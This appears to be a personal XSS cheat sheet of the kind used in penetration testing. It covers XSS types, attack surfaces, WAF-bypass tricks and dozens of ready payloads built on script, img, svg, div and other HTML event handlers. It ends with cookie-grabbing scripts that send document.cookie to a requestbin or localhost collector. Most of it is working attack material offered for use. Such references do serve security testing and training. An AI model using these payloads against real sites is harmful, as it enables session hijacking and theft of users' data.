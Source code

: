 # XSS
Injection of malicious client side code into user's browser 

## Types of XXS attacks
1. Stored - payload is sent to the database and called each time the page is loaded
2. Blind XSS - type of stored XSS but you can't see the alert since it pops up in a page that you don't have access to
3. DOM Based XSS - vuln exists in client side code rather than server side code

Note: 
* Sometimes you wont see XSS alert on the same page where you entered data (Eg: profile , report).


##  Attack Surface
1. User-Agent in header
2. Image input - choosing file (XSS as an svg image)
3. XSS in URL params
4. XSS in Markdown files

## IF CSP policy is set to `self` you cannot execute inline or external scripts. Work around is JSON since it is same origin then.

Bypassing WAF:
1. Case insensitivity
2. URL encoding some special characters
3. Extra open brackets
4. Alternatives of script are - iframe, body, svg
5. Use eval

## Payloads
Basic test payload
```
<b>Test</b>
```

Basic payloads:
```
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

<img src=x onerror="a='ale';b='rt(1)';eval(a+b);">


// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```


Using html tags
```
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<iframe/src="data:text/html,<svg onload=alert(1)>">

```
A lot of options on:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## Getting the cookie (Data Grabber)
```
<script>location="https://requestbin/?q="+document.cookie</script>

<script>fetch("https://requestbin/?q=" + document.cookie) </script>

<script>document.location="https://requestbin/?q="+document.cookie</script>

<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>



```